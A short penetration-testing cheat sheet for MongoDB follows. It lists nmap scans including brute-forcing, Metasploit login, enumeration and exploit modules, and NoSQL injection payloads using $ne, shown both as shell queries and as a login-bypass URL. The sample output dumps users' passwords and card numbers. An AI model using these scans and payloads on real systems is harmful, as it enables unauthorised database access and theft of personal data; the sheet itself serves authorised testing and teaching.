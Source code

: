 ```
nmap -p 27017 <ipaddress>
nmap -p 27017 -sV <ipaddress>
nmap -p 27017 --script mongodb-brute <ipadress>
nmap -p 27017 --script mongodb-databases <ipaddress>

msf > use auxiliary/scanner/mongodb/mongodb_login
msf > use auxiliary/gather/mongodb_js_inject_collection_enum
msf > use exploit/linux/misc/mongod_native_helper

nmap -p 28017 <ipaddress>
nmap -p 28017 -sV <ipaddress>

http://<ipaddress>:28017/

```

----
##Attacking Applications##

```
> db.users.find({"username":"jim", "password": {$ne: "0x00"}})
{ "_id" : ObjectId("55d5d719d60515e316247247"), "username" : "jim", "password" : "jim", "email" : "jim@gmail.com", "cardnumber" : 54321 }
```

If you notice, the above MongoDB command is fetching all the documents where the username is "jim" and password not equals to "0x00".

```
> db.users.find({"username": {$ne: "0x00"}, "password": {$ne: "0x00"}})
{ "_id" : ObjectId("55d5d6f2d60515e316247246"), "username" : "tom", "password" : "tom", "email" : "tom@gmail.com", "cardnumber" : 12345 }
{ "_id" : ObjectId("55d5d719d60515e316247247"), "username" : "jim", "password" : "jim", "email" : "jim@gmail.com", "cardnumber" : 54321 }
{ "_id" : ObjectId("55d5d739d60515e316247248"), "username" : "bob", "password" : "bob", "email" : "bob@gmail.com", "cardnumber" : 22222 }
```

This time, we are able to see all the documents that do not meet the condition username and password as "jim".

```
http://localhost/index.php?username[$ne]=test&password[$ne]=test
```


----
##Automated Assessments##

We are going to use a very nice tool called NoSQLMap for this part.

http://github.com/tcstool/nosqlmap
